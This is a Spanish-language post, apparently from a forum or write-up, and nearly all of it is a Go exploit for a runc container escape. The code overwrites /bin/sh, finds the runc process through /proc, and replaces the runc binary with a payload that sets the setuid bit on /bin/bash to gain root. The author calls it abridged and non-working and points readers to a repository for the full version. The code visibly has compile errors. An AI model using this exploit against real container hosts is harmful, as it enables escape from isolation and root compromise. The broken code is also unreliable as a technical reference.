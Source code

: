 
Aqui está el exploit, lo he abreviado asi que no funcionará, asi que copien el del repo.
```go
package main
import ( "fmt" "io/ioutil" "os" "strconv" "strings" "flag")
var shellCmd string

func init() {
    flag.StringVar(&shellCmd, "shell", "", "Execute arbitrary commands")
    flag.Parse()}

func main() {
    // El comando que se ejecutará como root
    var payload = "#!/bin/bash \n chmod u+s /bin/bash"
    // Sobreescribir /bin/sh cone "/proc/self/exe" el interprete del runc
    fd := os.Create("/bin/sh")
    fmt.Fprintln(fd, "#!/proc/self/exe")
    fmt.Println("[+] Overwritten /bin/sh successfully")

    // Loop para encontrar el proceso correspondiente al runc
    var found int
    for found == 0 {
        pids := ioutil.ReadDir("/proc")
        for _, f := range pids {
            fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
            fstring := string(fbytes)
            if strings.Contains(fstring, "runc") {
                fmt.Println("[+] Found the PID:", f.Name())
                found = strconv.Atoi(f.Name())}}}

    // El pid sirve para abrir runc con la ruta alternativa para ejecutarlo/rescribirlo a la par
    var handleFd = -1
    for handleFd == -1 {
        // Note, la flag O_PATH no es imprescindible.
        handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
        if int(handle.Fd()) > 0 {
            handleFd = int(handle.Fd())}

    fmt.Println("[+] Successfully got the file handle")

    // Ahora sobreescribimos el binario 
    for {
        writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
        if int(writeHandle.Fd()) > 0 {
            fmt.Println("[+] Successfully got write handle", writeHandle)
            fmt.Println("[+] The command executed is" + payload)
            writeHandle.Write([]byte(payload))
            return}}}
```


